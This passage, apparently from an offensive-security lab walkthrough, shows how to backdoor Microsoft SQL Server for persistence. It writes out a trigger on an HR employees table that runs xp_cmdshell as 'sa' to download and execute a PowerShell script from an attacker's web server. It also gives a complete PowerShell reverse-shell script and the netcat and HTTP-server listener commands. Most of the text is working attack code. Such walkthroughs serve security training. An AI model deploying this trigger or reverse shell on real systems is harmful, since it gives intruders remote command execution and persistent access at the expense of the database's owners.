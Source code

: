 After all of this, we finally configure a trigger. We start by changing to the `HRDB` database.

```
USE HRDB
```

Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database.

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://$KALI:8000/evilscript.ps1'')"';
```

Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell.

```
$client = New-Object System.Net.Sockets.TCPClient("$KALI",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:

* The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
* The second connection will be a reverse shell on port 4454 back to our attacker machine.

**Kali #1**

```
python3 -m http.server
```

**Kali #2**

```
nc -lvp 4454
```
